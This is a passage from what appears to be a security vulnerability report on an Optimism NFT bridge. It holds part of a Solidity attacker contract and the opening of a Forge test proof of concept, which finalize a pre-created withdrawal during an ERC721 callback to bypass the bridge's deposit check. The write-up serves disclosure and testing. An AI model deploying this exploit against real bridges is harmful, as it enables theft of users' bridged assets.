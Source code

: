 ```solidity
        address,
        uint256 tokenId
    ) external {
        assert(bridge.deposits(address(localToken), remoteToken, tokenId) == true);

        portal.finalizeWithdrawalTransaction(_tx);

        if (localToken.ownerOf(tokenId) == address(this)) {
            localToken.approve(address(bridge), tokenId);
            // Do whatever you want
        } else {
            revert("Attack did not succeed");
        }
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external pure returns (bytes4) {
        return this.onERC721Received.selector;
    }

    function supportsInterface(bytes4 interfaceId) public view override returns (bool) {
        return
            interfaceId == type(ISomeCommonContract).interfaceId ||
            super.supportsInterface(interfaceId);
    }
}
```
As you can see, the point of the attack is to finalize a pre-created transaction during the callback.
Under normal circumstances, such a transaction would have failed because `deposits[_localToken][_remoteToken][_tokenId] != true`. But, with callback, we bypassed this check.

Forge test:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

import "@openzeppelin/contracts/utils/introspection/ERC165.sol";
import "@openzeppelin/contracts/utils/introspection/ERC165Checker.sol";
import { ERC721 } from "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import { Types } from "../libraries/Types.sol";
import { Hashing } from "../libraries/Hashing.sol";
import { Messenger_Initializer } from "./CommonTest.t.sol";
import { CrossDomainMessenger } from "../universal/CrossDomainMessenger.sol";
import { OptimismMintableERC721 } from "../universal/OptimismMintableERC721.sol";
import { L2OutputOracle } from "../L1/L2OutputOracle.sol";
import { OptimismPortal } from "../L1/OptimismPortal.sol";
import { L1ERC721Bridge } from "../L1/L1ERC721Bridge.sol";

interface ISomeCommonContract {
    function onERC721Transfer(
        address from,
        address to,
        uint256 tokenId
    ) external;
}

contract ERC721Callback is ERC721 {
    using ERC165Checker for address;
```